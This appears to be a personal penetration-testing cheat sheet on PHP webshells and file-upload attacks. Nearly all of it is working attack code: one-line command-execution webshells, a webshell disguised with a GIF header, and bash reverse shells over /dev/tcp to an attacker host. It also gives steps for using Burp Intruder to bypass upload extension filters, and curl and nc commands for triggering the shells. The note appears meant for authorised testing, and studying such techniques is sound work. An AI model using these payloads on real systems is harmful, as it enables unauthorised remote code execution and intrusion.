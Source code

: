 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### asp, aspx, cfm, jsp, laudanum, perl, php

![[Pasted image 20220202133058.png]]

```bash - kali
cp /usr/share/webshells/
```


### Bypassing extension limits.
1. Capture and upload in Burp. 
2. Send to Intruder.
3. Dicitonary attack the extension (PHP example below).

```burpsuite - kali
php
php3
php4
php5
phtml
```

### PHP

#### wwolf

```bash - kali
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]


#### php reverse shell payload

If you see php payload in exploit, replace with the following for reverse shell:

ORIGINAL:

```
payload = '<?php if($_POST["password"]=="' + password + '"){eval($_POST["cmd"]);}else{echo "<title>404 Not Found</title><h1>Not Found</h1>";}?>'
```

REPLACE WITH:
```php
payload = '<?php passthru("bash -i >& /dev/tcp/$KALI/80 0>&1"); ?>'
```

![[rlwrap]]


#### Pentestmonkey

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.php
```

https://github.com/pascal-gujer/webshellz

#### File upload webshells
Try saving this as 'Shelly.php' file, upload and access.

```php
<?php system($_GET[cmd]);?>
```

```php
<?php echo($_GET['cmd']);?>
```

```php
<?php echo shell_exec($_GET['cmd']);?>
```

![[rlwrap]]

```bash - target
bash+-c+'bash+-i+>%26+/dev/tcp/$KALI/443+0>%261'
```

```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```

#### GIF
Upload Shelly.php as a "GIF"

```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```

#### File upload webshell

See also: [[5._File Upload]]

Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

![[rlwrap]]

Upload and access Shelly.php.

```bash - kali
curl http://$TARGET/uploads/Shelly.php?cmd=id
```

Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```

Visit file upload to connect reverse shell.

#### PHP reverse shell
Shelly.php
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```

